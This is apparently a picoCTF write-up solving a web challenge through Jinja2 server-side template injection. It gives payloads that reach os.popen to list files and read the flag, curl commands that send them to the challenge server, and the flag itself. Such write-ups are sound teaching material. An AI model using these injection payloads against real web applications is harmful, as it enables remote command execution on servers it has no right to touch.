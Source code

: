# Description

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

# Solution

If you put in any value it just repeats it and you can mess around with the inputs but the following are the ones that allow you to run commands.

By putting this in the field and pressing Ok you can see the contents listed: `{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}`

From here you can see that the flag file is just called `flag` and you can print it out with this: `{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}`

After that runs the flag should be printed out on the webpage.

On the challenge it said it was `browser_webshell_solvable` so here is an alternative solution that works under only the command line. First you can you curl command to see the html: `curl http://rescued-float.picoctf.net:52534/`

This is the key part to look at:

```
<form action="/" method="POST">
    What do you want to announce: <input name="content" id="announce">
    <button type="submit"> Ok </button>
</form>
```

Then based on that you can use `curl -X POST -d "content=Hey" http://rescued-float.picoctf.net:52534/` to get to the page but it redirects so you can use the `-L` flag or just use `wget` instead to get to the redirected page. This command gives the flag:

`curl -L -X POST -d "content={{ cycler.__init__.__globals__.os.popen('cat flag').read() }}" http://rescued-float.picoctf.net:52534/`

If you wanted to take it a step further you could direct the output of curl into a file and run this command:

`cat file | grep -E picoCTF{.*} | cut -d ">" -f2 | cut -d "<" -f1 > flag.txt`

And then `cat flag.txt` to get the flag in that way.

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48...}`
